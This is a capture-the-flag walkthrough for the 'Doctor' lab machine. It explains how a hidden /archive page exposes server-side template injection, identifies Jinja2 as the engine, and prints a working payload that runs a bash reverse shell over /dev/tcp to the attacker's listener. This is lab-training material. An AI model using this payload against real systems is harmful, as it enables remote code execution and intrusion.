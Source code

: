# Alternative way to exploit Doctor

## Exploiting HTTP (Port 80) with Server-Side Template Injection

The login page _doctors.htb_ on port 80 is vulnerable to **Server-Side Template Injection (SSTI)**.
In the HTML source is a comment with a directory:
```
<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
```

The directory _/archive_ is a blank page but has contents in the HTML source code:
```
<channel>
 	<title>Archive</title>
```

When creating a new message with a basic template injection payload, there will be a new entry in the _/archive_:
```
Title: {{ 1+1 }}
Content: Test
```
```
<item><title>2</title></item>
```

This means that the template executed commands and added 1+1 to display 2 and thus proofs **Template Injection**.
The first thing is to identify, which template engine is used and the [SSTI article on Hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#identify) explains how to test different strings.

In this case it is **Jinja2**, so we can use the [PayloadsAllTheThings repository](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) for some useful payloads:
```
Title: {{config.__class__.__init__.__globals__['os'].popen("bash -c 'bash -i >& /dev/tcp/10.10.14.10/9001 0>&1'").read()}}
Content: Test
```

After creating the post and browsing to _/archive_, the payload will be executed and the listener on my IP and port 9001 starts a reverse shell as the user _web_.
